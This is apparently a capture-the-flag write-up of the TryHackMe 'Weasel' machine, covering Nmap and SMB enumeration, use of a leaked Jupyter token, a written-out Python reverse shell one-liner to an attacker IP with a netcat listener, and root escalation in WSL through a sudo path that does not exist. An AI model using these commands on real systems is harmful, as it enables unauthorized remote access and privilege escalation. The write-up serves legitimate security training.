








# THM - Weasel

#### Ip: 10.10.220.178
#### Name: Weasel
#### Rating: Medium

----------------------------------------------------------------------


### Enumeration

As always, lets kick things off by scanning all TCP ports with Nmap. Here I will also use the `--min-rate 10000` flag to speed the scan up.

```text
┌──(ryan㉿kali)-[~/THM/Weasel]
└─$ sudo nmap -p-  --min-rate 10000 10.10.220.178
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-07 14:41 CDT
Warning: 10.10.220.178 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.220.178
Host is up (0.13s latency).
Not shown: 63643 closed tcp ports (reset), 1877 filtered tcp ports (no-response)
PORT      STATE SERVICE
22/tcp    open  ssh
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
8888/tcp  open  sun-answerbook
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
49671/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 22.05 seconds
```
Lets enumerate open ports a bit further and use the `-sC` and `-sV` flags to use default Nmap scripts and to enumerate versions. I'll also use the `-T4` flags to increase the threads and speed things up.

```text
┌──(ryan㉿kali)-[~/THM/Weasel]
└─$ sudo nmap -sC -sV -T4 10.10.220.178 -p 22,135,139,445,3389,5985,8888,47001
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-07 14:42 CDT
Nmap scan report for 10.10.220.178
Host is up (0.12s latency).

PORT      STATE SERVICE       VERSION
22/tcp    open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 2b17d88a1e8c99bc5bf53d0a5eff5e5e (RSA)
|   256 3cc0fdb5c157ab75ac8110aee298120d (ECDSA)
|_  256 e9f030bee6cfeffe2d1421a0ac457b70 (ED25519)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2023-07-07T19:42:43+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=DEV-DATASCI-JUP
| Not valid before: 2023-03-12T11:46:50
|_Not valid after:  2023-09-11T11:46:50
| rdp-ntlm-info: 
|   Target_Name: DEV-DATASCI-JUP
|   NetBIOS_Domain_Name: DEV-DATASCI-JUP
|   NetBIOS_Computer_Name: DEV-DATASCI-JUP
|   DNS_Domain_Name: DEV-DATASCI-JUP
|   DNS_Computer_Name: DEV-DATASCI-JUP
|   Product_Version: 10.0.17763
|_  System_Time: 2023-07-07T19:42:34+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8888/tcp  open  http          Tornado httpd 6.0.3
| http-title: Jupyter Notebook
|_Requested resource was /login?next=%2Ftree%3F
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
| smb2-time: 
|   date: 2023-07-07T19:42:36
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.89 seconds
```

Ok cool, looks like we have a Windows machine here. It's a bit interesting to see SSH open on a Windows box, but definitely not unheard of. It's interesting to see Jupyter Notebook running on port 8888. Jupyter is a tool frequently used by folks in data analytics and data science type roles. 

Taking a quick peak at the page, it looks like we may need to find a token somewhere, or maybe we can create an account later on. 



Either way lets keep enumerating the machine to see what else we can find.

Checking out the SMB shares, I see we can access the `datasci-team` and the `IPC$` shares. Cool. Knowing that data science teams frequently use Jupyter Notebooks, lets start there. 



Logging into the share using smbclient, we find several interesting files. I'll pull all of them back to my machine locally for inspection.

```text
┌──(ryan㉿kali)-[~/THM/Weasel]
└─$ smbclient -U 'guest%' //10.10.220.178/datasci-team
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Jul  7 14:48:08 2023
  ..                                  D        0  Fri Jul  7 14:48:08 2023
  .ipynb_checkpoints                 DA        0  Thu Aug 25 10:26:47 2022
  Long-Tailed_Weasel_Range_-_CWHR_M157_[ds1940].csv      A      146  Thu Aug 25 10:26:46 2022
  misc                               DA        0  Thu Aug 25 10:26:47 2022
  MPE63-3_745-757.pdf                 A   414804  Thu Aug 25 10:26:46 2022
  papers                             DA        0  Thu Aug 25 10:26:47 2022
  pics                               DA        0  Thu Aug 25 10:26:47 2022
  requirements.txt                    A       12  Thu Aug 25 10:26:46 2022
  weasel.ipynb                        A     4308  Thu Aug 25 10:26:46 2022
  weasel.txt                          A       51  Thu Aug 25 10:26:46 2022

		15587583 blocks of size 4096. 8921463 blocks available

```

Several of the discovered files were random articles on weasels.



But in the `/misc` directory I found jupyter-token.txt, which is especially interesting.

```text
┌──(ryan㉿kali)-[~/THM/Weasel]
└─$ cat jupyter-token.txt
067470c5ddsadc54153ghfjd817d15b5d5f5341e56b0dsad78a
```

Using this token allows me to login on port 8888



Once logged in we can click on New > Terminal and we will be dropped into a web terminal. 



From there we can head over to https://www.revshells.com/ and grab a Python reverse shell oneliner.

Back in the terminal after setting up a NetCat listener I run:

```text
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.61.45",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
And catch a shell back in my listener:

```text
┌──(ryan㉿kali)-[~/THM/Weasel]
└─$ nc -lvnp 443 
listening on [any] 443 ...
connect to [10.6.61.45] from (UNKNOWN) [10.10.220.178] 51133
$ whoami
whoami
dev-datasci
$ hostname
hostname
DEV-DATASCI-JUP
```

Interestingly, this is a Windows machine, but I appear to be in a Linux environment. This must be Windows Subsystem for Linux (WSL), something I haven't played much with.

Not seeing any flags in the home directory I ran `sudo -l` to see what we can run with elevated permissions.



Interestingly, this file doesn't seem to exist.

```text
(base) dev-datasci@DEV-DATASCI-JUP:/tmp$ ls -la /home/dev-datasci/.local/bin/jupyter
ls: cannot access '/home/dev-datasci/.local/bin/jupyter': No such file or directory
```

We can copy `/bin/bash` to a file with this name and then execute it as root:

```text
(base) dev-datasci@DEV-DATASCI-JUP:/tmp$ cp /bin/bash /home/dev-datasci/.local/bin/jupyter
(base) dev-datasci@DEV-DATASCI-JUP:/tmp$ sudo /home/dev-datasci/.local/bin/jupyter
root@DEV-DATASCI-JUP:/tmp# whoami
root
```
Even though I am the root user, I still am having a heard time finding the user.txt or the root.txt flags. 

Doing some searching around online I find that the system is usually hosted in the `/mnt` directory, and navigating there I see a `c` diectory, but it is empty, or not yet mounted.

I can mount the system using `mount -t drvfs 'c:' /mnt/c`

From there I can begin interacting with the Windows system.

```text
root@DEV-DATASCI-JUP:/mnt/c# dir
$Recycle.Bin		  PerfLogs	  Program\ Files\ (x86)  Recovery		      Users    datasci-team
Documents\ and\ Settings  Program\ Files  ProgramData		 System\ Volume\ Information  Windows  pagefile.sys
``` 

I can now grab the user.txt flag from dev-datasci-lowpriv's Desktop



As well  as the root.txt from the Administrator's Desktop



Thanks for following along!

-Ryan

--------------------------------------------------------------------------------------
